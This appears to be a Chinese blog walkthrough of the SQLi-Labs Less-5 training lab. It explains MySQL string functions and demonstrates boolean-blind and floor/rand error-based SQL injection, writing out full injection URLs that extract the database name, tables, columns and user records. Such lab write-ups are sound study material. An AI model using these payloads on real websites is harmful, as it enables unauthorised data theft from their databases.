


SQL-Lib_Less5
查看源代码
首先分析可以看到这里以单引号闭合，如果有查询出来的值返回you are in ….，否则如果语句错误，或sql连接有误，会把错误输出出来，并且输出一个
用意
** 这道题想告诉我们的是当查询正确的时候他会返回you are in …. 而当错误或异常的时候他只会返回空或是错误语句**，那如果不理解可以理解为you are in….(代表了True)**，而返回为空则代表了（False）**
尝试正常访问**和非正常访问**
http://192.168.72.179/sqli-labs/Less-5/?id=1
http://192.168.72.179/sqli-labs/Less-5/?id=1'
可以明显看到有错误返回**，可以判断语句是可以被执行的，并且没有加过滤**
首先我们先查询一下版本**，测试一下我们是否能用盲注的方式获得数据**
利用left(database(),1)进行尝试
下面是LEFT()函数的语法
LEFT(str,length);
LEFT()函数接受两个参数：
str是要提取子字符串的字符串。
length是一个正整数，指定将从左边返回的字符数。
LEFT()报道查看函数str字符串中最左边的长度字符。如果str或length参数为NULL，报道查看则NULL值。
如果length为0或为负，则LEFT函数报道查看一个空字符串。如果length大于str字符串的长度，则LEFT函数报道查看整个str字符串。
请注意，SUBSTRING（或SUBSTR）函数也提供与LEFT函数相同的功能。
SELECT LEFT(‘MySQL LEFT’, 5);
在这里在注释后面的语句的时候突然发现了一个问题
正常来说#应该是可以注释掉的但是在环境中输入#并没有把后面的语句注释掉，报错任然显示，直到我把#用urlencode编码了之后换成%23才能成功执行语句
http://192.168.72.179/sqli-labs/Less-5/?id=1'and left(version(),1)=5#
http://192.168.72.179/sqli-labs/Less-5/?id=1'and left(version(),1)=5%23
当然在这里也可以用**–+进行注释，让mysql语句后面不执行**
那么回过主题，我们这里的数据库版本是**5.1.41的**
那么我们来看会下如果值不等于5会返回什么呢

可以看到数据库查询是正确的**，但是猜的值不对，所以我们的返回为空**
于是我们可以一点点猜测过去
http://192.168.72.179/sqli-labs/Less-5/?id=1'and left(version(),1)=5–+
可是知道猜到第四个值，sql语句报错了
http://192.168.72.179/sqli-labs/Less-5/?id=1'and left(version(),4)=5.1.%23
在mysql命令行中是这样报错的
大家可以在我的博客底下评论一起探讨这个问题哦
爆破数据库第一位
http://192.168.72.179/sqli-labs/Less-5/?id=1'and left(database(),1)>’a’–+

Database()为security，所以我们看他的第一位是否> a,很明显的是s > a,因此返回正确。当我们不知情的情况下，可以用二分法来提高注入的效率。
猜测数据库第二位
得知第一位为s，我们看前两位是否大于sa
http://192.168.72.179/sqli-labs/Less-5/?id=1'and left(database(),2)>’sa’–+

然后剩下的6个字符以此类推
substr()函数 ascii()函数 limit()函数讲解**
substr()**函数**
语法：substr(str,pos,len);//str:字符串，pos：起始位置，len：截断长度
例子：SELECT SUBSTR(‘2018-08-17’,6,7);
ASCII()函数
返回字符串str的最左面字符的ASCII代码值。如果str是空字符串，返回0。如果str是NULL，返回NULL
举例：select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1));
limit()函数
limit子句用于限制查询结果返回的数量，常用于分页查询
举例：select table_name from information_schema.tables where table_schema=”security” limit 0,1;
select table_name from information_schema.tables where table_schema=”security” limit 1,1;
利用**substr() ascii()**函数进行尝试
http://192.168.72.179/sqli-labs/Less-5/?id=1'and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>80–
此处table_schema 可以写成=’security’，但是我们这里使用的database()，是因
为此处database()就是security。此处同样的使用二分法进行测试，直到测试正确为止。
此处应该是101，因为第一个表示email。
这里我们已经了解了substr()函数，这里使用substr(**,2,1)即可。
http://192.168.72.179/sqli-labs/Less-5/?id=1'and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>80–
regexp（） 函数
MySQL 中使用 REGEXP 关键字指定正则表达式的字符匹配模式，下表列出了 REGEXP 操作符中常用的匹配列表。

举例：select * from users where username REGEXP ‘^a’;

利用**regexp** 获取**security中users** 表中的列
http://192.168.72.179/sqli-labs/Less-5/?id=1' and 1=(select 1 from information_sch
ema.columns where table_name=’users’ and table_name regexp ‘^us[a-z]’ limit 0,1)–
[http://192.168.72.179/sqli-labs/Less-5/?id=1%27%20and%201=(select%201%20from%20information_schema.columns%20where%20table_name=%27users%27%20and%20table_name%20regexp%20%27^us[a-z\]%27%20limit%200,1)--+](http://192.168.72.179/sqli-labs/Less-5/?id=1' and 1=(select 1 from information_schema.columns where table_name=’users’ and table_name regexp ‘^us[a-z]’ limit 0,1)–+)
上述语句时选择users 表中的列名是否有us**的列
http://127.0.0.1/sqllib/Less-5/?id=1' and 1=(select 1 from information_schema.columns where
table_name=’users’ and column_name regexp ‘^username’ limit 0,1)–+
上图中可以看到username 存在。我们可以将username 换成password 等其他的项也是正确
的。
ORD()函数** MID()函数 IFNULL()函数 CAST()函数 讲解**
ORD() 函数
ORD() 函数返回字符串第一个字符的 ASCII 值。
语法： ORD(string)
例子： select ord(‘I’);
MID()函数
SQL MID() 函数用于得到一个字符串的一部分。这个函数被MySQL支持，但不被MS SQL Server和Oracle支持。在SQL Server， Oracle 数据库中，我们可以使用 SQL SUBSTRING函数或者 SQL SUBSTR函数作为替代。
MID() 函数语法为：SELECT MID(ColumnName, Start [, Length]) FROM TableName
举例: select mid(‘fre3l3i’,1,5);
IFNULL() 函数
IFNULL() 函数用于判断第一个表达式是否为 NULL，如果为 NULL 则返回第二个参数的值，如果不为 NULL 则返回第一个参数的值。
IFNULL() 函数**语法为**：IFNULL(expression, alt_value)
举例：SELECT IFNULL(NULL, “RUNOOB”);
CAST()函数****
CAST用来转换字符类型
语法：CAST( value AS type )
type的类型有
| value | 描述 |
|---|---|
| DATE | 日期，格式为 ‘YYYY-MM-DD’. |
| DATETIME | 日期加具体的时间，格式为 ‘YYYY-MM-DD HH:MM:SS’. |
| TIME | 时间，格式为 ‘HH:MM:SS’. |
| CHAR | 字符型 |
| SIGNED | int |
| UNSIGNED | 无符号int |
| BINARY | 二进制型 |
| DECIMAL | float型 |
举例**:**select cast(20.3456 as decimal(10, 2)) as num ;
select cast(‘2019-03-08 15:31:26’ as datetime ) as date;
利用ord（）和mid（）数获取users 表的内容**

获取users 表中的内容。获取username 中的第一行的第一个字符的ascii，与68 进行比较，
即为D。而我们从表中得知第一行的数据为Dumb。所以接下来只需要重复造轮子即可。
报错注入
Concat()函数
语法：concat(str1, str2,…)
作用：将多个字符串连接成一个字符串。
举例：select concat(id,username,password) as info from users;
Floor()函数
语法**：floor**(x)
作用**：返回小于或等于x的最大整数**
举例：**select floor(1.5)**
http://127.0.0.1/sqllib/Less-5/?id=1' union Select 1,count(*),concat(0x3a,0x3a,(select user()),0
x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a–+
利用double 数值类型超出范围进行报错注入，没有试验成功，主要由于函数溢出了之后返回为Null